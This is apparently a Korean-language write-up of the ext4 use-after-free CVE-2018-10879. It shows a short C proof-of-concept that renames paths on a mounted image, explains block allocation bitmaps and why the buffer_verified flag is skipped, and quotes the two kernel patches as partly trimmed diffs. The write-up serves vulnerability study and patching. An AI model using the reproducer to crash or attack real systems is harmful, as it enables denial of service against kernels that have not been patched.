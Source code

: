 CVE-2018-10879
==============

### Use After-free detected by KASAN in Ext4

#### **<POC.C>**

```c
#include <sys/types.h>
#include <sys/mount.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <sys/xattr.h>
#include <dirent.h>
#include <errno.h>
#include <error.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <linux/falloc.h>
#include <linux/loop.h>
static void activity(char *mpoint) {
char *foo_bar_baz;
char *foo_baz;
int err;
err = asprintf(&foo_bar_baz, "%s/foo/bar/baz", mpoint);
err = asprintf(&foo_baz, "%s/foo/baz", mpoint);
rename(foo_bar_baz, foo_baz);
}
int main(int argc, char *argv[]) {
activity(argv[1]);
return 0;
}
```

<br>

---

### **Comment**

```
block 35는 block allocation bitmap으로 사용 된다.
```

**Block allocation이란?** <br>

모든 read-write 파일 시스템들은 파일에 배치할 때 문제가 발생한다. <br>

개별적으로 해결되야할 두가지 문제들이 존재한다. <br>

-	`free Block`을 찾는 과정 <br>
-	특정 파일의`데이터가 저장 되어있는` 블록을 기억하는 과정<br>

extent는 블록의 range를 첫번째 블록의 숫자와 블록의 range 길이를 명시한다.<br>

위 두가지 문제점들의 대안은 각 블록의 번호를 따로 보관하는 것인데, 보통은 더 많은 공간이 필요하지만 간단하다.<br>

그래서 많은 파일 시스템들은 `allocation bitmap`을 사용한다.<br>

파일을 구성하는 블록을 저장하는 전통적인 UNIX방법은 extent를 사용하지 않고 블록 번호 목록을 사용한다.<br>

처음에는 inode 구조에 저장된다.(direct block)<br>

이 공간이 차게 되면 한 블록이 추가 블록 번호를 저장하도록 할당 된다.<br>

이 간접 블록의 블록 번호만 inode구조에 저장된다.<br>

그 공간도 소진될시 이 방법을 반복적으로 적용하여 이중 간접 블록 또는 삼중 간접 블록으로 이어진다.<br>

**CVE-2018-10879**에서는 block 35번이 allocation bitmap으로 사용 되고 있다.<br>

그리고 그 블럭은 buffer_verified flag가 set되어 있다.<br>

그후에 ext4_xattr_check_block()을 호출 할시, code는 buffer_verified flag를 체크하고 확인된 블록이라고 판단한다. 그에 따라 2가지 패치를 한다.<br>

**(1) ext4: add corruption check in ext4_xattr_set_entry()**<br>&nbsp;&nbsp;&nbsp; <b>http://patchwork.ozlabs.org/patch/928666/<br>**(2) ext4: always verify the magic number in xattr blocks** <br>&nbsp;&nbsp;&nbsp; <b>http://patchwork.ozlabs.org/patch/928667/<br>

---

### **Patch**

(1) xattr 버퍼를 overrun하지 않는지 확인하는 추가적인 체크를 추가했다.<br>

```c
static int ext4_xattr_set_entry(struct ext4_xattr_info *i,handle_t *handle, struct inode *inode, bool is_block)
{
 -struct ext4_xattr_entry *last;
 +struct ext4_xattr_entry *last, *next;
 struct ext4_xattr_entry *here = s->here;
 size_t min_offs = s->end - s->base, name_len = strlen(i->name);
 int in_inode = i->in_inode;
 static int ext4_xattr_set_entry(struct ext4_xattr_info *i,

    /* Compute min_offs and last. */
 last = s->first;
 -for (; !IS_LAST_ENTRY(last); last = EXT4_XATTR_NEXT(last)) {
 +for (; !IS_LAST_ENTRY(last); last = next) {
 +  next = EXT4_XATTR_NEXT(last);
 +  if ((void *)next >= s->end) {
 +          EXT4_ERROR_INODE(inode, "corrupted xattr entries");
 +          ret = -EFSCORRUPTED;
 +          goto out;
 ...
 +      }
```

(2) inode가 block allocation bitmap같은 다른 종류의 메타데이터 블록을 가리키는 경우에도, buffer_verified flag가 set될수 있다<br>

이러한 경우 외부의 attribute block을 만들수 있다.<br>

verified flag를 사용하는 이유는 지속적으로 재검증을 막기 위해서이다.<br>

하지만 xattr block의 magic number를 확인하는 작업은 많은 overhead가 걸리지 않고 potential crash들을 피할수 있다.<br>

```c
__ext4_xattr_check_block(struct inode *inode, struct buffer_head *bh)
 {
    int error = -EFSCORRUPTED;

-   if (buffer_verified(bh))
-       return 0;
-
    if (BHDR(bh)->h_magic != cpu_to_le32(EXT4_XATTR_MAGIC) ||
        BHDR(bh)->h_blocks != cpu_to_le32(1))
        goto errout;
+   if (buffer_verified(bh))
+       return 0;
+
    error = -EFSBADCRC;
    if (!ext4_xattr_block_csum_verify(inode, bh))
        goto errout;
    ...
  }
```
